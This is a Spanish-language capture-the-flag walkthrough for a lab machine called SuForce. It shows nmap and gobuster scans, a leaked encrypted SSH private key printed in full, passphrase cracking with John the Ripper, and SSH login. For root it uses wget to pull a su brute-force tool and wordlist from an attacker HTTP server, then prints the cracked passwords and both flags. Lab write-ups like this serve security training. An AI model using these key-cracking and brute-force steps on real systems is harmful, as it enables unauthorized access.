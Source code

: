 ### SuForce
Realiza un análisis completo y elabora 10 preguntas relevantes que aborden aspectos técnicos, metodológicos y estratégicos observados durante el proceso de resolución

Empezamos por escaneo basico con nmap 
```
nmap -sVC -A <IP-MAQUINA> -p-

Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 f0:e6:24:fb:9e:b0:7a:1a:bd:f7:b1:85:23:7f:b1:6f (RSA)
|   256 99:c8:74:31:45:10:58:b0:ce:cc:63:b4:7a:82:57:3d (ECDSA)
|_  256 60:da:3e:31:38:fa:b5:49:ab:48:c3:43:2c:9f:d1:32 (ED25519)
80/tcp open  http    Apache httpd 2.4.56 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.56 (Debian)
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.15
OS details: Linux 4.15

```
Tenemos abiertos los puertos 22 y 80, revisamos desde el navegador 

```
http://<IP-MAQUINA>:80

```
Solo aparece la pagina principal de Apache, vamos a escanear los directorios con gobuster

```
gobuster dir -u http://10.10.230.142 -w /usr/share/wordlists/dirb/common.txt -x php,html,txt /index.html           (Status: 200) [Size: 10701]
/index.html           (Status: 200) [Size: 10701]
/notes.txt            (Status: 200) [Size: 101]

```
Vamos abrir el archivo notes.txt

```
http://<IP-MAQUINA>/notes.txt
Fuck!

configuring SSH, I closed the editor by mistake and lost the key.. I can't find it

Diego

```
Ahora sabemos que es un usuario Diego que a la hora de configuracion de SSH se ha perdido su clave, vamos a buscar mas archivos .bin, .swp con gobuster

```
gobuster dir -u http://10.10.191.37 -w /usr/share/wordlists/dirb/common.txt -x php,txt,bak,save,swp -t 40

/id_rsa.swp           (Status: 200) [Size: 1743]
/index.html           (Status: 200) [Size: 10701]
/notes.txt            (Status: 200) [Size: 101]

```
Ya tenemos el archivo id_rsa.swp con la clave de acceso. Abrimos este archivo en navegador y copiamos en un archivo id_rsa.key

```
sudo nano id_rsa.key 

-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: DES-EDE3-CBC,5FB6DAB10833FB47

wyx0cnQnbD8irngLK6O52ClihBJPTKpjbQdqfB/AbIlyBCtm0AAib5Ej6VH9UMKy
FEFFemgiN2Wpxz3vPq6RI470BL+2BXbqhO3yNGwCkmHiStWQ8AlhXdh+z5cP8xoT
/3wTzXQsCMT2sCwvOs2QoKXTEzd8RF6SqjD2ambSkzZMCoo+dYHw4+2PnbUiXr3s
VSJsNxiouNu9uUT+MpvKyfvpW1jfE/lcyEYWHFhllIjyLYqmZDEumhfMu3Q2ji7c
XjAuzgapP11+uSnzFLQo8DrSdmhmYJV+xYpKBiQLAZcsiwTzuyYz0CQhpVa7z9P6
rob+yzlwG/7erGjDb6wg/UJwDcjPn+T9mPrU0fZDF13iJNG9sE0OG80hd6QwPiFJ
mlW++fLEtYTC+wv56QiGPlDZn4yDziABRnRxYjHJnPvxZjpZFq+1hMc6OEyIst02
fN/C0Q6oZtYdLleb15/jhlX1gKH70L8a8ecmgmmYaS31kMdHwZinU8wHl4Pcrf88
We71WkrkFkuPlF2afLDehYSlJxeT2cJ+H9lGkEsfGL4JtoT4uyjsREiqC0Q3BlsD
7fA4t4k7quxq9q6A5YJQc8pDKWO6f/poDTBHxeK4Urzwh4gMjLWxuImTpvG3mydp
Z8FdMgO/AyWa7Zq8DACEZoDxY6IWwwJ2vcaSremVBlA2vkQqZsG1Df2wDlfF+/P0
PMUNDDshRx92IHnzinM+AM3HilxDKV1vwjMjOJJH1blb1sNIHUT85P90Ewn5NEgE
ACl3fK/GkOU9KX0gGfkXwmWqrFkeliTEhGpi7s9j5YSvbq4fTszxqt8UuM/gdTUf
7GPJCOe/h3oudznytN6j2N6Z15SOGG2j8+xUfgAbW/+IxuCdpVqGWESkTJ7VfbxR
sKq3U1AUm+fLrQ6T9+NIzHRuqts9EXUMkXjoDIsY56ZYU04oOezuvDzgy/GxVNeC
eLDEo8/IY77HjoQxP3a+AfEyFH26x4JVgF43RXSqdyGL62IqAjmdNnRM91XZJUY7
nNsnTyYDmQaAZLY2KQfiYQkUV4q6sGVmcwzM+ryTAIQJlmYbo+OCKZgg4ZxOjofM
axd1DhxHbC/Y2CdkB60N9fJdQSKqYjGPK7dDI/JBevrphp+p6ZMDeP8oERryI8mX
aLdVMWV3VcvR6Vs/x2/ogI6EBn1CA2VOooTtV77zKRHDcDlU2HmiOSRNCXvwLDi0
qPLJRBwSE+wwMgDAKsU+Yv5itHq7pCkeqzMbvD6E5kFyvHhXi2YmYj4EYPiz8OYP
dyw7aG8b8tICRoYRN3FjFH5kh1/PXWOf1TlbdHmYE6vNgpoBmrNNfEzT6zeZxKXj
ExJHVZ3v9+7rhPXUZasONogZrm9w9fOPSMFrVdNZsrZsrWAukfG+wCKVdzy5vAvL
bHefHgEM5ZC8v4+Kg7nsFjM6DHWn5y+lFb15TYptWApZ7+2UWHGhu3a1lZvxSFGi
iwEjHBlsCo8IBsRIRKrae6RpuQhVlm1fRZqf0yFuv2W2KjUGMqCinxn/7o7rY/d3
l5Ziei4zwDkhZTWB+iZtaJ7aSUJ6CKJb5sTta7HqSSgutGAX80Ao3g==
-----END RSA PRIVATE KEY-----

```
Desciframos la llave con ssh2John en un archivo clave.hash

```
ssh2john id_rsa.key > clave.hash 

```
Hacemos la fuerza bruta con JohnTheRipper para saber la contraseña

```
john --wordlist=/usr/share/wordlists/rockyou.txt clave.hash 
sandiego         (id_rsa.key) 

```
Ahora podemos entrar con el usuario Diego y su clave id_rsa y la la contraseña

```
ssh -i id_rsa.key diego@10.10.136.20
Enter passphrase for key 'id_rsa.key': 
Linux suforce 5.10.0-23-amd64 #1 SMP Debian 5.10.179-1 (2023-05-12) x86_64
Last login: Mon May 22 13:56:42 2023 from 192.168.1.10

```
Encontramos un archivo user.txt en el directorio del usuario con la primera flag

```
diego@suforce:~$  ls -la

-r-------- 1 diego diego   22 may 20 00:01 user.txt

cat user.txt
FLAG://U53R_D13G0.GCF

```
Ahora vamos a escalar privilegios. Vamos a utilizar una herramienta suForce para hacer la fuerza bruta para reconocer la contraseña de root. Descargamos la herramienta con wget 'https://drive.usercontent.google.com/uc?id=1DQZXdvk6mgJt1H2up-AjhW-Rmu8Pfl-p&export=download' -O suForce.zip.
Abrimos el archivo con unzip y ahora vamos a descargar un archivo suForce.sh a la maquina victima. Esto se puede hacer de varias maneras con wget o con scp. Vamos a activar el servidor http en la maquina kali y con wget descragar primero el wordlist/rockyou.txt, porque lo vamos a utilizar para la fuerza bruta y despues descargamos suForce.sh

```
┌──(kali㉿kali)-[/usr/share/wordlists]
python3 -m http.server 8888 
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...

diego@suforce:~$ wget http://10.23.75.205:8888/rockyou.txt
Grabando a: «rockyou.txt»

rockyou.txt                 100%[===========================================>] 133,44M  6,48MB/s    en 21s 

┌──(kali㉿kali)-[~/Desktop/Eval_Cont]
└─$ python3 -m http.server 8888 
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) 

diego@suforce:~$ wget http://10.23.75.205:8888/suForce.sh
Grabando a: «suForce.sh»

suForce.sh                  100%[===========================================>]   2,89K  --.-KB/s    en 0,002s

```
Cambiamos los permisos para poder ejecutar y lanzamos la fuerza bruta

```

chmod +x suForce.sh

./suForce.sh -u root -w rockyou.txt
==========================================================
███████╗██╗   ██╗███████╗ ██████╗ ██████╗  ██████╗███████╗
██╔════╝██║   ██║██╔════╝██╔═══██╗██╔══██╗██╔════╝██╔════╝
███████╗██║   ██║█████╗  ██║   ██║██████╔╝██║     █████╗ 
╚════██║██║   ██║██╔══╝  ██║   ██║██╔══██╗██║     ██╔══╝ 
███████║╚██████╔╝██║     ╚██████╔╝██║  ██║╚██████╗███████╗
╚══════╝ ╚═════╝ ╚═╝      ╚═════╝ ╚═╝  ╚═╝ ╚═════╝╚══════╝
==========================================================
 Dev: SuForce     Version: v0.0.1
==========================================================
Username | root
Wordlist | rockyou.txt
 Status   | 3267/14344392/0%/rootbeer
 Pass | rootbeer
==========================================================

```
Ya tenemos la contaseña de root. Con su - y su contraseña accedemos a root y en su directorio encontramos el archivo con la flag

```

diego@suforce:~$ su -
Contraseña: 
root@suforce:~# ls -la
total 28
drwx------  3 root root 4096 may 20 00:00 .
drwxr-xr-x 18 root root 4096 may 22  2023 ..
lrwxrwxrwx  1 root root    9 may 22  2023 .bash_history -> /dev/null
-rw-r--r--  1 root root 3526 ene 15  2023 .bashrc
drwxr-xr-x  3 root root 4096 ene 15  2023 .local
-rw-r--r--  1 root root  161 jul  9  2019 .profile
-r--------  1 root root   26 may 20 00:00 root.txt
-rw-r--r--  1 root root   66 may 22  2023 .selected_editor
root@suforce:~# cat root.txt
FLAG://G00D_W0RK_R00T.GCF

